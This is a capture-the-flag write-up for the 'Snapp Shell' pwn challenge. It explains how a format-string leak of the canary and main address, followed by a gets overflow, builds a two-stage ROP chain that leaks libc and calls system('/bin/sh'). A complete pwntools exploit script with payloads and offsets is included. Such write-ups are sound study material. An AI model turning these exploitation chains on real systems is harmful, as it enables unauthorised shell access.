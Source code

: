 ## Snapp Shell

````
My [**shell**](https://snappctf.com/tasks/snappshell_fc8d87fc117c34914b7c1b1d1255e6305ae9a072.txz) is broken, can you fix it for me? No you can't = )

`nc 91.107.177.236 3117`
````
## Solution

There was 4 functionality in the program, one was exit, other one was cat which was disabled and there were two functionality which were useful for the exploitation, `echo` function that was vulnerable to format string and was used to leak the canary and address of `main` function and the base of program for gadgets that we might need, and the `find_index` function which  was vulnerable to overflow with `gets` function allowing us to jmp wherever we need.

After a long search for pop rdi gadget to leak the libc address to bypass ASLR, I was hopelessly searching writeups to figure what to do when I found https://ctftime.org/writeup/36368 which was the Idea and once more I opened r2 and found out that it is actually there with a `0x62050` difference to the libc base address, so used puts function to leak that and after that return again to main and after that using the pop rdi gadget inside libc to pop bin/sh string to the rdi and finally calling system function.

```python3
p=process('./snapp_shell')

# Leak canary
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%7$p')
x=p.recvline()
can=p64(int(x,16))

# get main address
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%15$p')
x=p.recvline()
main=int(x,16)

# Compute some useful addresses or just set to find their real address later
exe = main-0x0000140d
puts = exe+0x10e4
ret = exe+0x101a
diff = 0x62050
system = 0x50d70
binsh = 0x1d8678
pop_rdi = 0x2a3e5

# First step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(puts)+p64(ret)+p64(main)
p.sendline(pay)
p.recvuntil('input is')
p.recvline()
lc = p.recvline()
lcd = u64(lc[:-1]+b'\x00\x00')
libc = lcd - diff

# Second step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(libc+pop_rdi)+p64(libc+binsh)+p64(libc+system)
p.sendline(pay)
```

![IMG/Pasted image 20240225191817.png](./IMG/Pasted image 20240225191817.png)